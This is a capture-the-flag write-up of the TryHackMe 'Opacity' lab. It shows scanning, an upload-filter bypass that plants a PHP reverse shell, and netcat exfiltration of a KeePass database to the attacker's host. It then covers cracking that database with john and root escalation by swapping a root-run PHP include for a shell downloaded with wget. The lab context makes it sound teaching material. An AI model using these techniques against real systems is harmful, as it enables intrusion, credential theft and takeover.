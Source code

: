 ```bash
# PLATFORM          . THM
# CTF NAME          . Opacity
# DESCRIPTION       . Opacity is a Boot2Root made for pentesters and cybersecurity enthusiasts.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/opacity
```

```
sudo nmap -sSVC -T5 -p- 10.10.6.62 -oN opacity
```

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0fee2910d98e8c53e64de3670c6ebee3 (RSA)
|   256 9542cdfc712799392d0049ad1be4cf0e (ECDSA)
|_  256 edfe9c94ca9c086ff25ca6cf4d3c8e5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
```

#### PORT 80

- Nothing interesting and the login form didn't seem vulnerable to SQLi.

- I've decided to fuzz for hidden directories before wasting time on bruteforcing / more SQLi.

```
ffuf -u http://10.10.6.62/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

```
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
cloud                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

- In `/cloud` directory, we find a form that is enabling us to upload pictures to the storage solution from a link.

- We can create our own server to serve files for upload purposes ; 

- I tried uploading a `.php` reverse shell but it failed. 
- A `shell.php.jpg` bypassed the filter, but `shell.jpg.php` didn't. 

- At this point, I'm assuming that the shell is checking for the last extension only to be equal to `.jpg`. 

- I was able to bypass this by having the following files in my webserver directory

- `shell.php` - the reverse PHP shell
- `shell.php#.jpg` - the file we're using to tell the Storage Service to look for. 

- This is working because the filter is seeing the `.jpg` at the end, but `#` prevents it from actually getting appended to the filename, resulting in `shell.php` getting downloaded from the server instead.

- External link used to upload the `shell.php` file: `http://IP:8000/shell.php#.jpg`

- After getting a reverse shell, I've been able to locate the first flag in `/home/sysadmin/local.txt`. 

- However, I continued looking for different, out of the ordinary files/permissions/privilege escalation vectors and I came across `dataset.kdbx` when checking `/opt`. 

- After searching the file extension online, I found out that's the file format for the KeePass Password Manager.

- To make this process easier, the owner of the room installed `netcat` on the system, allowing us to transfer the file following the process:

**TARGET**

```
nc -N IP PORT < dataset.kdbx
```

**LOCALHOST**

```
nc -nvlp PORT > dataset.kdbx
```

- I was able to crack it using john as follows

```
/opt/john/run/keepass2john dataset.kdbx > dataset
```

```
/opt/john/run/john -w=/usr/share/wordlists/rockyou.txt dataset
```

```
7{REDACTED}3        (dataset)     
```

- After this, using `keepassxc-cli`, we can dump the content of the `.kdbx` file using

```
keepassxc-cli export dataset.kdbx > creds
```


```
...
<String>
	<Key>Password</Key>
	<Value ProtectInMemory="True">Cl{REDACTED}700</Value>
</String>

<String>
	<Key>UserName</Key>
	<Value>sysadmin</Value>
</String>
...

```

- So we got the credentials for `sysadmin`. We can SSH into the box.

- We know that the files uploaded to the site are being removed very quickly, but I couldn't find a cron scheduled to do this. 

- However, in `/home/sysadmin/scripts/` we find script.php which seems to do exactly that. 

- I assumed this is the same script that's doing the actual cleanup and not a copy and it is running under root or something, judging by the ownership.

```
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

- However, the script is including the `lib/backup.inc.php` file. It is owned by root, but the directory is owned by us, which means we can delete the file and replace it with another named the same, but with different content.

```
sysadmin@opacity:~/scripts/lib$ rm backup.inc.php 
rm: remove write-protected regular file 'backup.inc.php'? y

sysadmin@opacity:~/scripts/lib$ wget http://{...}:8000/shell.php     

sysadmin@opacity:~/scripts/lib$ mv shell.php backup.inc.php
```

- I've replaced `backup.inc.php` with the same reverse shell used earlier, renamed to `backup.inc.php`.

```
Connection received on 10.10.6.62 35302
# whoami
root
```

- The last flag is in `/root/proof.txt`.

____

**PS**

- After some research, I found out that `pspy` can be used to snoop on processes without root privileges.
- It also detects the `script.php` running.

```
2024/02/11 11:04:01 CMD: UID=0     PID=1888   | /usr/bin/php /home/sysadmin/scripts/script.php 
```